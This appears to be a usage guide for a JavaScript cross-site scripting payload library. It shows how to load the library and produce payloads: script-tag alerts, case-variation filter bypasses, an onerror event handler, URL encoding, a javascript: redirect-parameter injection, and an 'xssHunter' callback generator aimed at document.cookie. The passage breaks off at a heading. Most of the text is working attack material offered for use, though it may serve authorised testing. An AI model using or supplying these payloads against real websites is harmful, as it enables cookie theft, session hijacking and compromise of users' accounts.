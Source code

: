 ## How to Use

### 1. Using static.js

#### Direct Loading
```html
<script src="static.js"></script>
<script>
// Use a random payload
var payload = XSSPayloads.PayloadGenerator.random(XSSPayloads.BasicPayloads.alert);
console.log(payload);
</script>
````

#### Node.js Import

```javascript
const XSSPayloads = require('./static.js');

// Generate a custom payload
var customPayload = XSSPayloads.PayloadGenerator.xssHunter('document.cookie');
console.log(customPayload);
```

#### Usage Examples

```javascript
// Basic payload
XSSPayloads.BasicPayloads.alert[0] // <script>alert(1)</script>

// Bypass payload
XSSPayloads.BypassPayloads.caseVariation[0] // <ScRiPt>alert(1)</ScRiPt>

// Event handler
XSSPayloads.EventHandlerPayloads.mouse[0] // <img src=x onerror=alert(1)>

// Encoding
XSSPayloads.PayloadGenerator.encoded('<script>alert(1)</script>', 'url')

// XSS Hunter callback
XSSPayloads.PayloadGenerator.xssHunter('document.cookie')
```

### 2\. Using payload\_uri.txt

#### URL Parameter Injection

```
Original: https://example.com/page?redirect=https://google.com
Payload:  https://example.com/page?redirect=javascript:alert(1)
```

#### HTML Attribute Injection

